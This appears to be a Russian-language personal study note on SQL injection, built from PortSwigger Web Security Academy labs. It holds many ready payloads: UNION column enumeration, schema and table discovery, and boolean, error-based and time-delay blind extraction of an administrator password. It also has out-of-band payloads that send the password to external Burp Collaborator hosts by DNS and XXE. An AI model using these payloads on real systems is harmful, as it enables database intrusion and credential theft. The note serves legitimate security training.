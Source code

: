 [SQL Injection](https://portswigger.net/web-security/sql-injection)

[Cheat Sheet from PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet) ^896bf6

# Извлечение скрытых данных

Запрос принимает `category`:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

Инъекция:

```sql
' OR 1=1--
```

# Нарушение логики приложения

Запрос принимает `username` и `password`:

```sql
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
```

Инъекция:

```sql
administrator'--
```

# Извлечение данных из других таблиц БД

Запрос принимает `category`:

```sql
SELECT name, description FROM products WHERE category = 'Gifts'
```

Инъекция:

```sql
'...' UNION SELECT username, password FROM users--
```

### Определение количества столбцов для UNION

С помощью _ORDER BY_:

```sql
'...' ORDER BY 1-- 
'...' ORDER BY 2-- 
'...' ORDER BY 3--
etc.
```

С помощью _UNION SELECT NULL_:

```sql
'...' UNION SELECT NULL--
'...' UNION SELECT NULL,NULL-- 
'...' UNION SELECT NULL,NULL,NULL--
etc.
```

Для Oracle:

```sql
'...' UNION SELECT NULL FROM DUAL--
```

**Поиск столбцов с полезным типом данных для SQL-инъекции UNION**
Поиск строкового столбца, 4 столбца:

```sql
'...' UNION SELECT 'a',NULL,NULL--
'...' UNION SELECT NULL,'a',NULL--
'...' UNION SELECT NULL,NULL,'a'--
```

### SQL-инъекция UNION

Зная название таблицы, столбцов, а также  их нужное количество:

```sql
'...' UNION SELECT username, password FROM users--
```

### Извлечение нескольких значений в одном столбце

Два столбца, только второй строковой:

```sql
'...' UNION SELECT NULL,username||'~'||password FROM users--
```

Операторы конкатенации в разных БД в [[#^896bf6|Cheat Sheet'е]]

# Изучение БД

Определение версии, например, для Oracle:

```sql
'...' SELECT * FROM v$version
'...' UNION SELECT null,banner from v$version--
```

Список таблиц для большинства БД:

```sql
'...' SELECT * FROM information_schema.tables
```

Пример для non-Oracle:

```sql
'...' UNION SELECT NULL,NULL
'...' UNION SELECT table_schema,table_name FROM information_schema.tables--
'...' UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_name='users_fekyvk'--
'...' UNION SELECT username_sowiok,password_rvcfaz FROM users_fekyvk--
```

Пример для Oracle:

```sql
'...' UNION SELECT NULL,NULL FROM DUAL--
'...' UNION SELECT NULL,table_name FROM all_tables--
'...' UNION SELECT NULL,column_name FROM all_tab_columns where table_name='USERS_DSDXRK'--
'...' UNION SELECT USERNAME_PCGUWT,PASSWORD_DDEJBN FROM USERS_DSDXRK--
```

# Blind SQL-инъекции

### Эксплуатация слепой SQL-инъекции путем запуска условного ответа

Пример для подбора пароля из [первой](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses) лабы по слепым инъекциям _(условный ответ, инъекция в куке)_

```sql
'...' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 1, 1) > 'm
```

### Вызов условных ответов путем запуска ошибок SQL

Пример для подбора пароля из [второй](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors) лабы по слепым инъекциям _(условная ошибка, инъекция в куке, Oracle)_
Проверка ошибки валидным запросом (ошибка)

```sql
'...'||(SELECT '')||'
```

Возможно, БД Oracle (siuu)

```sql
'...'||(SELECT '' FROM dual)||'
```

Проверяем существование таблицы _users_

```sql
'...'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```

Теперь проверяем conditional error

```sql
'...'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||' (ошибка)
'...'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||' (нет ошибки)
```

Проверим, существует ли имя пользователя _administrator_ (ошибка если есть)

```sql
'...'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

Определяем длину пароля (ошибка если значение совпало)

```sql
'...'||(SELECT CASE WHEN (LENTGH(password)=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

Подбираем пароль

```sql
'...'||(SELECT CASE WHEN (SUBSTR(password,1,1)='a') THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

### Эксплуатация слепых SQL-инъекций путем инициирования временных задержек

Полезные нагрузки для разных БД в [[#^896bf6|Cheat Sheet'е]]

Пример для [четвертой](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval) лабы
Перебором разных пэйлоадов определяем БД (PostgreSQL)

```sql
'...'%3Bpg_sleep(10)--
```

Составляем валидный запрос

```sql
'...'%3B+SELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END--
```

Проверяем существование пользователя

```sql
'...'%3B+SELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--
```

Определяем длину пароля

```sql
'...'%3B+SELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--
'...'%3B+SELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)=20)+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--
```

Тут в бурпе особо не автоматизировать, нужно запустить 20 раз интрудер с 1 потоком и ловить задержки

```sql
'...'%3B+SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)>'m')+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--
```

### Эксплуатация слепых SQL-инъекций с помощью out-of-band (OAST) методов*

Полезные нагрузки для разных БД в [[#^896bf6|Cheat Sheet'е]]

Для out-of-band взаимодействия можно использовать различные сетевые протоколы, но обычно наиболее эффективным является DNS (служба доменных имен). Это связано с тем, что очень многие производственные сети позволяют свободно передавать DNS-запросы, поскольку они необходимы для нормальной работы производственных систем.
В Microsoft SQL Server для запуска DNS-запроса на определенный домен можно использовать: 

```sql
'...'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

Приложение использует cookie-файл отслеживания для аналитики и выполняет SQL-запрос, содержащий значение переданного cookie. SQL-запрос выполняется асинхронно и не влияет на ответ приложения. Однако можно запустить внеполосное взаимодействие с внешним доменом. БД Oracle.

Например, можно объединить SQL-инъекцию с базовыми техниками XXE следующим образом (_уязвимость была устранена_):

```sql;xml
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
```

Пример запроса для эксфильтрации данных:

```sql
'...'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```

Пример из второй лабы по out-of-band слепым инъекциям:

```sql
'...'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'
x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.zuxdgr1aog6aoa2udnrdhvfu9lfj38.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
```

Лабы

[Blind SQL injection with out-of-band interaction](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)

[Blind SQL injection with out-of-band data exfiltration](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration)